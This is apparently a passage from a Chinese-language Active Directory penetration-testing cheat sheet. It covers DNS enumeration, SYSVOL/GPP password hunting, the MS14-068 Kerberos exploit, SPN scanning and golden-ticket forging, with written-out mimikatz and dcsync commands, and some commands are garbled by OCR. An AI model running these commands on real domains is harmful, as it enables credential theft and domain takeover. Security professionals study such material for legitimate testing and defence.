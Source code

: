 ```
                    "endNode": "{}"
                }
            ]
        }
```

**自动标记owned用户及机器**

[SyncDog](https://github.com/Lz1y/SyncDog)


##### 获取域内DNS信息
* [adidnsdump](https://github.com/dirkjanm/adidnsdump)
* [域渗透——DNS记录的获取](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-DNS%E8%AE%B0%E5%BD%95%E7%9A%84%E8%8E%B7%E5%8F%96)
​            
#### 获取域控的方法 
##### SYSVOL 
SYSVOL是指存储域公共文件服务器副本的共享文件夹，它们在域中所有的域控制器之间复制。 Sysvol文件夹是安装AD时创建的，它用来存放GPO、Script等信息。同时，存放在Sysvol文件夹中的信息，会复制到域中所有DC上。 
相关阅读: 
* [寻找SYSVOL里的密码和攻击GPP（组策略偏好） ](http://www.freebuf.com/vuls/92016.html)
* [Windows Server 2008 R2之四管理Sysvol文件夹 ](http://blog.51cto.com/ycrsjxy/203095)
* [SYSVOL中查找密码并利用组策略首选项 ](https://adsecurity.org/?p=2288)
* [利用SYSVOL还原组策略中保存的密码](https://xz.aliyun.com/t/1653) 

##### MS14-068 Kerberos 
```
python ms14-068.py -u 域用户@域名 -p 密码 -s 用户SID -d 域主机
```
利用mimikatz将工具得到的TGT_domainuser@SERVER.COM.ccache写入内存，创建缓存证书：
```
mimikatz.exe "kerberos::ptc c:TGT_darthsidious@pentest.com.ccache" exit
net use k: \pentest.comc$
```
相关阅读 :
* [Kerberos的工具包PyKEK](http://adsecurity.org/?p=676) 
* [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html)
* [Kerberos的安全漏洞](https://adsecurity.org/?p=541) 

##### SPN扫描 
Kerberoast可以作为一个有效的方法从Active Directory中以普通用户的身份提取服务帐户凭据，无需向目标系统发送任何数据包。
SPN是服务在使用Kerberos身份验证的网络上的唯一标识符。它由服务类，主机名和端口组成。在使用Kerberos身份验证的网络中，必须在内置计算机帐户（如NetworkService或LocalSystem）或用户帐户下为服务器注册SPN。对于内部帐户，SPN将自动进行注册。但是，如果在域用户帐户下运行服务，则必须为要使用的帐户的手动注册SPN。
SPN扫描的主要好处是，SPN扫描不需要连接到网络上的每个IP来检查服务端口，SPN通过LDAP查询向域控执行服务发现，SPN查询是Kerberos的票据行为一部分，因此比较难检测SPN扫描。
相关阅读 :
* [非扫描式的SQL Server发现](https://blog.netspi.com/locate-and-attack-domain-sql-servers-without-scanning/) 
* [SPN扫描](https://adsecurity.org/?p=1508) 
* [扫描SQLServer的脚本](https://github.com/PyroTek3/PowerShell-AD-Recon) 

##### Kerberos的黄金门票 
在域上抓取的哈希
```
lsadump::dcsync /domain:pentest.com /user:krbtgt
```
```
kerberos::purge
kerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 /ticket:adinistrator.kiribi
kerberos::ptt administrator.kiribi
kerberos::tgt
net use k: \pnet use k: \pentest.comc$
```
相关阅读 :
* https://adsecurity.org/?p=1640 
* [域服务账号破解实践](http://bobao.360.cn/learning/detail/3564.html) 